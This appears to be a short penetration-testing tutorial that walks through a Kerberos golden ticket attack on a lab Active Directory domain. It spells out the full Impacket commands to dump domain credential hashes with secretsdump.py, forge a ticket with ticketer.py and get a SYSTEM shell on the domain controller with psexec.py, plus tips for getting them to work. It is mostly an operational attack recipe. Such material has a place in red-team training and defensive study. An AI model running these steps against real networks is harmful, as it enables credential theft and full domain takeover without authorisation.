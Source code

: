 # Kerberos Golden Ticket Attack

## Dumping hashes from DC using Impacket secretsdump.py

If you have access to an account that is able to dump domain credentials, either due to being a domain admin or having excessive privileges, the following command can be used:

`sudo python secretsdump.py marvel.local/administrator:Password123\!@hydra-dc.marvel.local`

Where `marvel.local` is the domain `administrator:Password123\!` is the username and password of the user that has the privileges to dump the domain hashes and `hydra-dc.marvel.local` is the fully qualified domain name (FQDN) of the domain.

## Create Golden Ticket using Impacket ticketer.py

`python ticketer.py -aesKey <AES_KEY> -domain-sid <Domain_SID_HERE> -domain <domain.name> <anyusernamehere>`

This will generate a <username>.ccache file in the current directory.  Move the <username>.ccache file to /tmp/<username.ccache>
  
Set the following variable within the bash terminal:

`export KRB5CCNAME='<username>.ccache'`

## Editing /etc/hosts File

Now you will need to add your domain details and IP address to your /etc/hosts file.  In my case my domain name is marvel.local and the Domain Controller is named hydra-dc.marvel.local and is at 10.0.2.15:

```
10.0.2.15   hydra-dc.marvel.local
10.0.2.15   marvel.local

```

## Impacket psexec.py

Once everything above has been set you will now be able to use Impackets psexec.py script to get a shell on the domain controller as NT AUTHORITY\SYSTEM:

`sudo python psexec.py -k -no-pass marvel.local/badman@hydra-dc.marvel.local`

Note that in the command above you MUST specify the fully qualified domain name for the domain controller `hydra-dc.marvel.local`.  If you only specify the IP address it will not work and show the error:

```
KerberosError: Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```
Also the ticket must be generated and used within the 20 minute time-frame as described in the article here "https://passing-the-hash.blogspot.com/2014/09/pac-validation-20-minute-rule-and.html"
